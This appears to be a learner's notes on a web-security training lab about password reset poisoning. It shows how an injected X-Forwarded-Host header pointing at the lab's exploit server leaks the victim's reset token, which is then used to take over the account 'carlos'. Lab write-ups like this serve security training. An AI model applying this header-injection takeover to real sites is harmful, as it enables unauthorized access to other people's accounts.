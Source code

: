 This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

---

**Goal:** Exploit the vulnerability in the password reset functionality, and access Carlos's account. 

**Analysis:** There are three primary requests used to reset the password:
1. Forgot password request
2. Email link to reset password
3. Resetting the password confirmation

I'll store these by sending them to repeater which will create three tabs, each with my separate requests. 

1. The first request asks for the name of the user.
2. The second request sends a temporary `forgot password` token used to reset the password. This is tied to the user account. It then generates the page which allows you to put in the new password.
3. Now the app allows you to change the password using the `temp-forgot-password-token` and `new-password-1` `new-password-2`

**Question:** _Does the app support the `X-Forwarded-Host:` header?_

For the host i can use the exploit server provided in the lab.

```php
X-Forwarded-Host:<Exploit_Server>
```

- Try sending the first request with the header added, if you get a `200 OK` then it's probably vulnerable and accepts the header. I should now have received a new email in the email client provided in the lab.
- The webserver does **NOT** need to include the `https://` of the address, that can be removed.  `X-Forwarded-Host:exploit-0a8e0078035520e98011253001050082.exploit-server.net/exploit`

```php
X-Forwarded-Host:exploit-0a8e0078035520e98011253001050082.exploit-server.net/exploit
```

![[Pasted image 20240827073804.png]]

**Tip:** _The `Origin:` should now be set to the exploit server address._

**Change username to send Carlos a reset link.**

Check exploit server log to see if Carlos has reset the password with the link i sent.

![[Pasted image 20240827074401.png]]

```php
10.0.3.32       2024-08-27 06:41:30 +0000 "GET /exploit/forgot-password?temp-forgot-password-token=bvn9v5kwh7k7ir09nhkorwlg4ddq1l0z HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

Token:
```php
bvn9v5kwh7k7ir09nhkorwlg4ddq1l0z
```

**Now what happens?**
- Sends a link to Carlos's email that has the link i just generated.
- When Carlos click on the link it will make a entry in the exploit server log.
- Copy the `temp-forgot-password` token.
- Use the token in the second repeater request at the start of the lab.
- Send the request and check the render to see if it's valid.

![[Pasted image 20240827074538.png]]

- Use the token on the third request at both the bottom and top entries of `temp-forgot-password`

![[Pasted image 20240827074735.png]]

- Change password and send the request.
- Login to Carlos's account with the new password to complete the lab.

![[Pasted image 20240827074949.png]]

**Token:** Make sure to copy the token correctly if you get an `invalid token` error.

---

**Completed:** _07:50 2024-08-27_
 


